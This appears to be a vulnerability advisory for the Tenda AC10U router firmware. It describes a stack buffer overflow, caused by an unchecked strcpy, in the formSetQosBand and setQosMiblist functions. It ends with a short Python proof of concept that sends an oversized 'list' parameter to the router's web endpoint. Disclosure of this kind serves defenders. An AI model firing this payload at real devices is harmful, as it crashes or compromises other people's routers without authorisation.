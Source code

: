 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `formSetQosBand` function. The `list` variable receives the `list` parameter from a POST request and this variable is passed into function `setQosMiblist` as `list`. In function `setQosMiblist`, variable `list` is passed to `p`, which is later assigned to the `qos_str` variable, which is fixed at 256 bytes. However, since the user can control the input of `list`, the statement `strcpy(qos_str, p);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `qos_str` array, triggering this security vulnerability.

![image-20240313151421962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151421962.png)

![image-20240313151613616](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151613616.png)

![image-20240313151542937](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151542937.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313151929824](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151929824.png)
